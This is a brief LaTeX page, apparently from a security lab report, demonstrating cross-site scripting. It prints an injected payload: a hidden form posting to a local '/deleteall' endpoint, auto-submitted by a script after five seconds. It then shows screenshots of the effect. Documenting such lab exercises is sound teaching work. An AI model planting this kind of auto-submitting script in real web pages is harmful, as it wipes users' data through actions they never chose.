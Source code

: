 \documentclass[a4paper, 12pt, fleqn]{article}
\begin{document}
\newpage
\noindent
XSS Script: \\
<pre><code> \\
Malicious Code \\
<form id="myform" action="http://127.0.0.1:8000/deleteall" method="post"></form> \\
<script>setTimeout(() => {document.getElementById("myform").submit();}, 5000);</script>\\
</code></pre>
\begin{center}
	\vspace{0.1cm}
	\includegraphics[scale=0.25]{xss_after}
\end{center}

\begin{center}
	\vspace{0.1cm}
	\includegraphics[scale=0.25]{xss_affect}
\end{center}
\end{document}
